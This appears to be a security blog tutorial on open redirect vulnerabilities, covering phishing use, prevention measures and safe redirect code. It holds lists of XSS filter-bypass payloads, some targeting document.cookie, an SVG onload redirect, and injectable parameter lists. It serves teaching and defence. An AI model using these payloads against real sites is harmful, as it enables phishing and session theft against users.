 ```yaml
---
title: Open Redirect Vulnerability
#author: cotes
date: 2024-11-10 12:00:00 +04:00
categories: [Web Vulnerabilities,Open Redirect]
tags: [Web Vulnerabilities]
render_with_liquid: false
image:
  path: /images/web_vulnerabilities/open_redirection/open-redirection.jpg
  alt: Open Redirect Vulnerability
---
```


## What is Open Redirect?

Unvalidated redirects and forwards are possible when a web application accepts untrusted input that could cause the web application to redirect the request to a URL contained within untrusted input. By modifying untrusted URL input to a malicious site, an attacker may successfully launch a phishing scam and steal user credentials.

Because the server name in the modified link is identical to the original site, phishing attempts may have a more trustworthy appearance. Unvalidated redirect and forward attacks can also be used to maliciously craft a URL that would pass the application's access control check and then forward the attacker to privileged functions that they would normally not be able to access. 

---

## Exploitation

Consider this example: Your web application has a feature that allows users to click a link and be automatically redirected to their saved favorite home page. This may be performed as follows: 


  ```console
https://example.com/redirect?url=https://mywebsite.com
```


An attacker could exploit an open redirect here by replacing the `mywebsite.com` with a link to a malicious website. They could then distribute this link in a phishing email or on another website. When users click the link, they're taken to the malicious website.

---

## Open Redirect to XSS

  ```bash
#Basic payload, javascript code is executed after "javascript:"
javascript:alert(1)

#Bypass "javascript" word filter with CRLF
java%0d%0ascript%0d%0a:alert(0)

#Javascript with "://" (Notice that in JS "//" is a line coment, so new line is created before the payload). URL double encoding is needed
#This bypasses FILTER_VALIDATE_URL os PHP
javascript://%250Aalert(1)

#Variation of "javascript://" bypass when a query is also needed (using comments or ternary operator)
javascript://%250Aalert(1)//?1
javascript://%250A1?alert(1):0

#Others
%09Jav%09ascript:alert(document.domain)
javascript://%250Alert(document.location=document.cookie)
/%09/javascript:alert(1);
/%09/javascript:alert(1)
//%5cjavascript:alert(1);
//%5cjavascript:alert(1)
/%5cjavascript:alert(1);
/%5cjavascript:alert(1)
javascript://%0aalert(1)
<>javascript:alert(1);
//javascript:alert(1);
//javascript:alert(1)
/javascript:alert(1);
/javascript:alert(1)
\j\av\a\s\cr\i\pt\:\a\l\ert\(1\)
javascript:alert(1);
javascript:alert(1)
javascripT://anything%0D%0A%0D%0Awindow.alert(document.cookie)
javascript:confirm(1)
javascript://https://whitelisted.com/?z=%0Aalert(1)
javascript:prompt(1)
jaVAscript://whitelisted.com//%0d%0aalert(1);//
javascript://whitelisted.com?%a0alert%281%29
/x:1/:///%01javascript:alert(document.cookie)/
";alert(0);//
```

## Open Redirect uploading svg files

  ```bash
<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.location='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
</code>
```


## Common injection parameters

  ```text
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
success=https://c1h2e1.github.io
data=https://c1h2e1.github.io
qurl=https://c1h2e1.github.io
login=https://c1h2e1.github.io
logout=https://c1h2e1.github.io
ext=https://c1h2e1.github.io
clickurl=https://c1h2e1.github.io
goto=https://c1h2e1.github.io
rit_url=https://c1h2e1.github.io
forward_url=https://c1h2e1.github.io
@https://c1h2e1.github.io
forward=https://c1h2e1.github.io
pic=https://c1h2e1.github.io
callback_url=https://c1h2e1.github.io
jump=https://c1h2e1.github.io
jump_url=https://c1h2e1.github.io
click?u=https://c1h2e1.github.io
originUrl=https://c1h2e1.github.io
origin=https://c1h2e1.github.io
Url=https://c1h2e1.github.io
desturl=https://c1h2e1.github.io
u=https://c1h2e1.github.io
page=https://c1h2e1.github.io
u1=https://c1h2e1.github.io
action=https://c1h2e1.github.io
action_url=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
sp_url=https://c1h2e1.github.io
service=https://c1h2e1.github.io
recurl=https://c1h2e1.github.io
j?url=https://c1h2e1.github.io
url=//https://c1h2e1.github.io
uri=https://c1h2e1.github.io
u=https://c1h2e1.github.io
allinurl:https://c1h2e1.github.io
q=https://c1h2e1.github.io
link=https://c1h2e1.github.io
src=https://c1h2e1.github.io
tc?src=https://c1h2e1.github.io
linkAddress=https://c1h2e1.github.io
location=https://c1h2e1.github.io
burl=https://c1h2e1.github.io
request=https://c1h2e1.github.io
backurl=https://c1h2e1.github.io
RedirectUrl=https://c1h2e1.github.io
Redirect=https://c1h2e1.github.io
ReturnUrl=https://c1h2e1.github.io
```

---

## Safe URL Redirects

When we want to redirect a user automatically to another page (without an action of the visitor such as clicking on a hyperlink) you might implement a code such as the following:


**PHP**

```php
<?php
/* Redirect browser */
header("Location: http://www.mysite.com");
/* Exit to prevent the rest of the code from executing */
exit;
?>
```
{: file='index.php'}

**ASP .NET**

```csharp
Response.Redirect("~/folder/Login.aspx")
```
{: file='index.aspx'}

**Java**

```js
response.sendRedirect("http://www.mysite.com");
```
{: file='index.js'}

---

## Preventive Measures

- If possible, applications should avoid incorporating user-controllable data into redirection targets. In many cases, this behavior can be avoided in two ways:
  - Remove the redirection function from the application, and replace links to it with direct links to the relevant target URLs.
  - Maintain a server-side list of all URLs that are permitted for redirection. Instead of passing the target URL as a parameter to the redirector, pass an index into this list.

- If it is considered unavoidable for the redirection function to receive user-controllable input and incorporate this into the redirection target, one of the following measures should be used to minimize the risk of redirection attacks:
  - The application should use relative URLs in all of its redirects, and the redirection function should strictly validate that the URL received is a relative URL.
  - The application should use URLs relative to the web root for all of its redirects, and the redirection function should validate that the URL received starts with a slash character. It should then prepend http://yourdomainname.com to the URL before issuing the redirect.
  - The application should use absolute URLs for all of its redirects, and the redirection function should verify that the user-supplied URL begins with http://yourdomainname.com/ before issuing the redirect.

---

## References

[**OWASP**](https://cheatsheetseries.owasp.org/cheatsheets/Unvalidated_Redirects_and_Forwards_Cheat_Sheet.html)

[**Hacktricks**](https://book.hacktricks.xyz/pentesting-web/open-redirect)

[**Pentester**](https://pentester.land/blog/open-redirect-cheatsheet/)

[**Acunetix**](https://www.acunetix.com/vulnerabilities/web/open-redirection/)
